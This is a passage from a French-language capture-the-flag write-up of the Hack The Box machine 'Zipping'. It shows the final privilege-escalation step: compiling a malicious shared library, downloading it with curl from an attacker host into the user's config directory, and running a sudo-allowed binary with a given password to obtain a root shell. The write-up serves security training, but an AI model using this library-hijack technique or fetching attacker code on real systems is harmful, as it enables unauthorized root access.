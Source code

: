 Par la suite, il faut `builder` la librairie et la téléversée dans le bon répertoire:
```bash
gcc -shared -o libcounter.so -fPIC libcounter.c
curl http://10.10.10.10/libcounter.so -o /home/rektsu/.config/libcounter.so
```

Lorsque le programme est lancé, on obtient les privilèges `root`

```bash
rektsu@zipping:/home/rektsu/.config$ sudo /usr/bin/stock
Enter the password: St0ckM4nager
root@zipping:/home/rektsu/.config#
```


## Resources:

| Hyperlink                                                                                        | Info         |
| ------------------------------------------------------------------------------------------------ | ------------ |
| https://book.hacktricks.xyz/linux-hardening/privilege-escalation/write-to-root#etc-ld.so.preload | C program    |
| https://0xdf.gitlab.io/2024/01/13/htb-zipping.html                                               | 0xdf writeup |

